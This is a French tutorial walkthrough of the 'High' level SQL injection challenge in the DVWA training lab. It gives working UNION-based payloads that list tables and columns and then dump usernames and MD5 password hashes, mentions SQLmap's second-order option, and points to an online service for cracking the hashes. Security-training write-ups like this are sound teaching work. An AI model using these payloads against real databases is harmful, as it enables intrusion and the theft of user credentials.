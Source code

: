 # Niveau "High"

Un changement au niveau de l’interface pour ce niveau « High ». Une pop-up est disponible pour insérer l’objet de notre recherche et le résultat s’affiche sur la fenêtre principale :

![](../../../../.gitbook/assets/a1dd1c57a6575a56ff5864b9dac6743f.png)

L'injection de notre caractère préféré `"'"` retourne une erreur générique :

![](../../../../.gitbook/assets/03a2758c4de27662e8d49b251f3d11c4.png)

Le fait que l'erreur soit générique n'est pas vraiment gênant, car cela indique bien que le caractère spécial semble être traité comme du code et non comme faisant partie de la donnée. L'injection semble donc être toujours possible :

```sql
6' UNION SELECT 1,2 -- 
```

![](../../../../.gitbook/assets/65391a169a41499b078eabb505cb0762.png)

Récupération des noms des tables :

```sql
'6' UNION SELECT table_name,2 FROM INFORMATION_SCHEMA.tables WHERE table_schema = 'dvwa' -- 
```

![](../../../../.gitbook/assets/bd172c5f7f2447b1243ecd39d9e6992b.png)

Récupération des noms des colonnes :

```sql
'6' UNION SELECT column_name,2 FROM INFORMATION_SCHEMA.columns WHERE table_schema = 'dvwa' -- 
```

![](../../../../.gitbook/assets/d1ea95501c569208c5423279891f13e0.png)

Puis finalement des noms et empreintes des mots de passe des utilisateurs :

```sql
'6' UNION SELECT user,password FROM dvwa.users --  
```

![](../../../../.gitbook/assets/448bc597599a9c79565ffafaa5be8012.png)

L'erreur générique n'augmente pas réellement la difficulté du challenge par rapport au niveau "Low" mais la présence d'une seconde fenêtre peut empêcher les outils automatisés de fonctionner.

L'injection présente ici est une injection nommée "second ordre", et sans l'indiquer explicitement à l'outil il peut ne pas réussir à l'exploiter.

{% hint style="info" %}
Sous `SQLmap` il est possible d'utiliser l'option `--second-order` pour ce type d'injection
{% endhint %}

Une fois fait, la dernière étape reste de cracker les hash md5 (32 caractères) des mots de passe en utilisant par exemple [crackstation.net](https://crackstation.net/) :

![](<../../../../.gitbook/assets/80ef0f7a16a8a069f943e801429ef8f7 (1).png>)
